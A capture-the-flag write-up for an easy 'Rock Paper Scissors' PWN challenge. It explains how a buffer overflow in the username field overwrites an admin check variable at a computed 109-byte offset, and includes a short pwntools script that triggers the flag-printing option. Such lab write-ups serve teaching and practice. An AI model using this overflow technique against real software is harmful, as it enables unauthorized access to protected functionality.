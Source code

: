 ## Challenge Name : Rock Paper Scissors
Category: PWN
Points:  50
Difficulty: Easy

Artifact files:
* [rps](rps)

Description: Rock Paper Scissors, SHOOT

### Observations

Starting the program, we get prompted with a username input. After this it seems like this is just
some sort of normal Rock Paper Scissors game against a robot who plays random inputs but there is also
another option called "Shoot" which, when choosen, says it's a special admin only functionality.

Now this seems suspicious, maybe we'll have to somehow give ourselves access to this admin functionality ??

Let's look at the assembly code to confirm that.

Before the actual program's execution, the flag is loaded in memory through an environment variable and the 
getenv() function:

![img](images/getenv.png)

Now looking at the rest of the code, we find there's a pretty obvious buffer overflow on the username field:

![img](images/bof.png)
![img](images/buffer_address.png)

And we can also see that upon choosing option 4 (the weird admin option) the program checks if one of the stack
variables is set to 1 and if it is, prints the flag. Otherwise it'll send us the "only admin authorized" message
that we got earlier.

![img](images/admin_chk.png)
![img](images/flag_print.png)

Luckily for us, we can use our buffer overflow to overwrite this value to 1 and then call the special admin option
on the panel to print ourselves a flag.

The username field is stored at ebp-0x82 and the variable we want to modify is at ebp-0x15. Doing some quick substraction
we get the offset from our input to the variable : 0x82 - 0x15 = 109
Which is in range of our overflow of 150 bytes in username input.

### Exploiting

Now we could make a python command one liner for this but just for the sake of making a clean writeup let's make a script.

```py
#!/usr/bin/env python3

from pwn import *

context.log_level = 'error'
context.binary = elf = ELF('./rps')

if args.REMOTE:
    io = remote() # put your remote here
else:
    io = process()

io.sendlineafter(b': ', b'A'*109+pack(0x1))
io.sendlineafter(b': ', b'4')
io.interactive()
io.close()
```

Here is the script I made. Overflows the value and sets it to 1, then automatically calls the 4th option to print the flag.
Running it locally we get the following output : 

![img](images/win.png)

Of course, I don't have the flag environment variable locally so it doesn't print but we can see that it is running
the code that is needed. Running it on the remote will give you the flag :) 

[Back](../../README.md)
